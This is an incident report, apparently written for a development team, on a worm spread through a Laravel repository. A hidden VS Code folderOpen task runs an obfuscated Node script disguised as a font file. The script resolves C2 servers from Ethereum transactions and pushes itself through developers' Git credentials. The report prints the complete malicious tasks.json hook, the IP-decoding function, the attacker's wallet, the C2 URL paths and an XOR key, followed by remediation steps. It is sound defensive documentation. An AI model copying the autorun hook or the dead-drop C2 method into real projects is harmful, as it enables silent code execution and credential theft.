


# Security Incident & Threat Awareness Report: Supply-Chain Git Worm & Ethereum C2 Trojan

> **Classification:** CRITICAL / SEVERITY: HIGH  
> **Target Repository:** `Future-Stack/pulse_e_backend_laravel`  
> **Incident Type:** IDE Workspace Exploit &bull; Decentralized Ethereum C2 &bull; Automated Git Worm  
> **Date:** November 1, 2026  
> **Status:** Root Cause Identified &bull; Eradication Protocol Active  

---

## 1. Executive Incident Summary

Over recent weeks, repository branches and pull requests have experienced automated, recurring unauthorized code pushes introducing files named `api.js`, disguised font payloads, and corrupted `vite.config.js` scripts.

Forensic investigation of git history and file contents confirmed that this is **not** an external brute-force breach of GitHub. Rather, it is an active **workstation-to-repository worm** triggered by VS Code's `folderOpen` automatic task execution hook. 

When an engineer opens the repository in VS Code, a malicious Node.js script executes silently in the background, connects to the Ethereum blockchain to resolve live attacker command-and-control (C2) servers, and leverages the developer's authenticated local Git environment to commit and push malware back into the remote repository at regular intervals.

---

## 2. Attack Infection Chain & Architecture Diagram



---

## 3. Threat Overview & Technical Analysis

### A. The Silent Execution Hook (`.vscode/tasks.json`)
VS Code supports automatic task execution upon opening a workspace folder. The malware abused this feature by registering an innocent-looking `eslint-check` task configured with `runOn: folderOpen`, `isBackground: true`, and `hide: true`:

```json
{
  "version": "2.0.0",
  "tasks": [
    {
      "label": "eslint-check",
      "type": "shell",
      "command": "node",
      "args": ["./public/fonts/fa-solid-300.ttf"],
      "problemMatcher": [],
      "isBackground": true,
      "hide": true,
      "presentation": {
        "reveal": "never",
        "panel": "dedicated",
        "focus": false,
        "clear": false,
        "echo": false,
        "close": true
      },
      "runOptions": {
        "runOn": "folderOpen"
      }
    }
  ]
}
```
Because `reveal: never` and `hide: true` were configured, engineers received **no visible terminal window, prompt, or notification** that Node was running.

---

### B. Disguised Trojan Payload (`public/fonts/fa-solid-300.ttf`)
The file located at `public/fonts/fa-solid-300.ttf` is **not a font file**—it is a 22 KB obfuscated Node.js script. Over time, the worm used polymorphic filenames across different commits:
- `public/fonts/fa-solid-700.fml`
- `public/fonts/fa-solid-300.llf`
- `public/fonts/fa-solid-800.lkf`
- `public/fonts/fa-solid.lfk` / `fa-solid.lkf`
- `public/fonts/fa-solid-300.ttf` (Latest tracked variant)

---

### C. Smart Contract C2 Dead-Drop Resolver
Rather than relying on fixed IP addresses or domain names that could be easily blocked or sinkholed, the script connects to Ethereum blockchain public RPC endpoints:
- `https://eth.drpc.org`
- `https://ethereum-rpc.publicnode.com`
- `https://eth.blockscout.com/api`

It retrieves the most recent transaction sent from the attacker's wallet:
```text
0x1eEf0849EDa15d87f64e51C73C8442Cf3c8bCEF3
```
The script decodes the recipient `to` address bytes into an IPv4 address:
```javascript
function decodeAddress(t) {
    const e = Buffer.from(t.replace(/^0x/i, ""), "hex");
    const n = t => `${t[0]}.${t[1]}.${t[2]}.${t[3]}`;
    return [n(e.subarray(0, 4)), n(e.subarray(4, 8))];
}
```
This resolves the active C2 IP addresses. It then retrieves encrypted second-stage payloads from `http://${ip1}:443/0x/cls` and `http://${ip1}:443/0x/ls`, decrypts them via XOR keys (e.g. `q4FZkxX{!h,Sr3=@`), and executes them in a detached Node process.

---

### D. Self-Propagation & Automated Git Pushes
Once initialized on a workstation:
1. It creates and updates `api.js` at the root of the project.
2. It mutates `../package.json` to prepend `node api.js &&` to the `dev` and `build` scripts.
3. It drops temporary batch files (e.g. `temp_auto_push.bat`, `temp_interactive_push.bat`).
4. It executes automated `git add`, `git commit`, and `git push` commands.
5. Because team members have local SSH keys or Git Credential Manager configured, the worm uses legitimate developer identities to push malicious commits to GitHub branches (`main`, `mahbub`, `mim`).

> [!WARNING]
> **Why Deleting `api.js` Did Not Stop the Attack:**  
> Deleting `api.js` or adding it to `../.gitignore` only removed the payload file generated by the worm. Because `.vscode/tasks.json` and `public/fonts/fa-solid-300.ttf` remained tracked in `HEAD`, every developer who opened the project in VS Code reinfected their workstation, which immediately re-spawned the daemon and pushed `api.js` back into GitHub.

---

## 4. MITRE ATT&CK Mapping

| Tactic | Technique ID | Description |
| :--- | :--- | :--- |
| **Execution** | [T1204.002](https://attack.mitre.org/techniques/T1204/002/) | User Execution: Malicious File / VS Code `folderOpen` Task Hook |
| **Defense Evasion** | [T1036.005](https://attack.mitre.org/techniques/T1036/005/) | Masquerading: Node.js code disguised with `.ttf` font extension |
| **Command and Control**| [T1102.001](https://attack.mitre.org/techniques/T1102/001/) | Web Service: Dead-Drop Resolver via Ethereum Smart Contract Transactions |
| **Persistence** | [T1546](https://attack.mitre.org/techniques/T1546/) | Event-Triggered Execution in IDE and `../package.json` scripts |
| **Lateral Movement** | [T1078.004](https://attack.mitre.org/techniques/T1078/004/) | Valid Accounts: Self-propagation using authenticated developer Git credentials |

---

## 5. Containment & Remediation Roadmap



### Step 1: Purge Malicious Files from Git & Working Tree
Run the following in PowerShell from the repository root:
```powershell
# 1. Force-remove the malicious trigger and trojan font file
git rm -f .vscode/tasks.json
git rm -f public/fonts/fa-solid-300.ttf

# 2. Check for and remove any lingering polymorphic font files
Get-ChildItem public/fonts/fa-solid*.* | Where-Object { $_.Name -notmatch "fa-solid-900" } | Remove-Item -Force

# 3. Clean up .gitignore
# Remove temp_auto_push.bat, temp_interactive_push.bat, and api.js

# 4. Commit and push the clean state to main
git add .
git commit -m "fix(security): eradicate vscode tasks trigger and trojan font payload"
git push origin main
```

---

### Step 2: Workstation Disinfection (Mandatory for ALL Team Members)

1. **Terminate Hidden Node Daemons**:
   Check for and terminate any unexpected background Node processes:
   ```powershell
   Get-Process node -ErrorAction SilentlyContinue | Select-Object Id, Path, StartTime
   # Stop-Process -Id <PID> -Force
   ```
2. **Disable Automatic Task Execution in VS Code (Permanent Immunization)**:
   - Open VS Code Settings (`Ctrl + ,`).
   - Search for: `task.allowAutomaticTasks`.
   - Set **Task: Allow Automatic Tasks** to **`off`**.
   *(This blocks any repository from executing shell scripts on folder open).*
3. **Purge Temp & Startup Folders**:
   - Delete all files inside `%TEMP%`.
   - Check `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup` for unauthorized `.bat` or `.js` scripts.
4. **Mandatory Credential Rotation**:
   Because the malware achieved arbitrary code execution:
   - **GitHub**: Revoke and regenerate all SSH keys and Personal Access Tokens (PATs).
   - **Environment Secrets**: Precautionarily rotate production credentials (`../.env` secrets, database passwords, Stripe webhook secrets, Terra API keys).

---

### Step 3: Remote Feature Branch Hygiene
Branches such as `origin/mahbub` and `origin/mim` carry historical infected commits (`e9ea6a7`, `9e4af3e`). 
- **Do not merge stale branches directly into `main`**.
- Developers must rebase active work onto the newly cleaned `main`:
  ```bash
  git checkout <branch>
  git pull origin main --rebase
  git push origin <branch> --force
  ```

---

## 6. Long-Term Governance & Prevention

1. **GitHub Branch Protection Rules**:
   - Require pull request reviews before merging into `main`.
   - Require status checks to pass.
   - Restrict direct pushes to `main`.
2. **Pre-Merge CI Security Check**:
   Add a GitHub Actions linting step in `../.github/workflows` that fails if any `.vscode/tasks.json` containing `folderOpen` or any unapproved executable file in asset folders is detected.
3. **Commit Verification**:
   Enforce GPG or SSH commit signing across the organization to guarantee that only developer-signed commits can be pushed.
